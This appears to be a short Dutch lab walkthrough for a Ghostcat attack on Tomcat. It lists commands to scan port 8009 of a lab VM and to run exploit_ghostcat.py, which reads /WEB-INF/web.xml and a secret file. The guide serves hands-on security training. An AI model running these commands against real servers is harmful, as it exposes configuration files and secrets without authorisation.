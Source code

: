 # Starten van de aanval

## 1) Stappen om de aanval succesvol uit te voeren (Kali VM)

- 4.1) Start de kali vm (indien deze nog niet aan staat):
- 4.2) zorg dat het setup_tomcat.sh bestand op de ubuntu vm staat (bv Downloads -> cd Downloads)
- 4.3) open terminal
- 4.4) sudo systemctl start ssh
- 4.5) sudo systemctl enable ssh
- 4.6) cd Downloads
- 4.7) chmod +x exploit_ghostcat.py
- 4.8) nmap 10.10.10.4 -p 8009
- 4.9) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/web.xml read
- 4.10) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/secret.txt read

